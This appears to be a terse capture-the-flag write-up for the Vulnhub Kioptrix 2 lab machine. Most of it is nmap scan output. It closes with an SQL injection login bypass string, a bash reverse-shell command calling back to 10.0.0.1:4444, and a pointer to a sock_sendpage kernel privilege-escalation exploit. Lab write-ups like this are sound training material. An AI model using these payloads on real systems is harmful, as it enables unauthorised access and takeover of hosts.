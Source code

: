 ```yaml
---
layout: single
title: Kioptrix 2!
description: Writeup for Kioptrix 2 from Vulnhub
categories: [htb]

---
```


summer@kali:~/Documents/HTB/scripts$ sudo nmap -sC -sV -A -O 10.0.0.159
[sudo] password for summer: 
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-16 21:24 EST
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 21:24 (0:00:02 remaining)
Nmap scan report for 10.0.0.159
Host is up (0.00066s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            662/udp  status
|_  100024  1            665/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2018-12-17T00:07:09+00:00; -2h17m36s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:53:19:4C (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: mean: -2h17m36s, deviation: 0s, median: -2h17m36s

TRACEROUTE
HOP RTT     ADDRESS
1   0.66 ms 10.0.0.159

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.32 seconds


port 80:
sql injection with
' or 1=1- --

spawn reverse shell using nc
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1

searchsploit Linux 2.6
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privilege Escalation

send to machine and run
